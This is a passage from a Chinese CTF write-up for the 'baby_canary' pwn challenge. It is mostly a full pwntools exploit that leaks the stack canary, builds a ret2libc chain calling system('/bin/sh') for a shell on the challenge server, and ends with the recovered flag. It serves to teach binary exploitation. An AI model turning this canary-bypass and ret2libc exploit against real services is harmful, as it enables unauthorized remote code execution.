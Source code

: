 故最终构造exp如下：

```
from pwn import *

p = remote('sec.arttnba3.cn',10003)
e = ELF('./baby_canary')
libc = ELF('./libc.so.6')

puts_got = e.got['puts']
puts_plt = e.plt['puts']

p.recv()
payload1 = b'A'*(0x4c-0xc+1)
p.send(payload1)
p.recvuntil(payload1)
canary = u32(b'\x00'+p.recv(3))
p.recv()

payload2 = b'A'*(0x4c-0xc) + p32(canary) + b'A'*(0xc-4) + p32(0xdeadbeef) + p32(puts_plt)+ p32(e.sym['main']) + p32(puts_got)

p.send(payload2)
p.recvuntil('flag!\n')

puts_addr = p.recv(4)

puts_addr = u32(puts_addr)

libc_base = puts_addr - libc.sym['puts']
sys_addr = libc_base + libc.sym['system']
sh_addr = libc_base + libc.search(b'/bin/sh').__next__()

p.send(payload1)
payload3 = b'A'*(0x4c-0xc) + p32(canary) + b'A'*(0xc-4) + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.send(payload3)
p.interactive() 
```

运行exp，成功getshell

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-iYxblUoE-1605852471195)(https://i.loli.net/2020/08/29/v7Kau1Bop9rckdU.png)]

得到flag

```
moectf{W0w_Y0u_c@n_e5cap3_fr0m_c4nary!} 
```

# 0x02.Misc
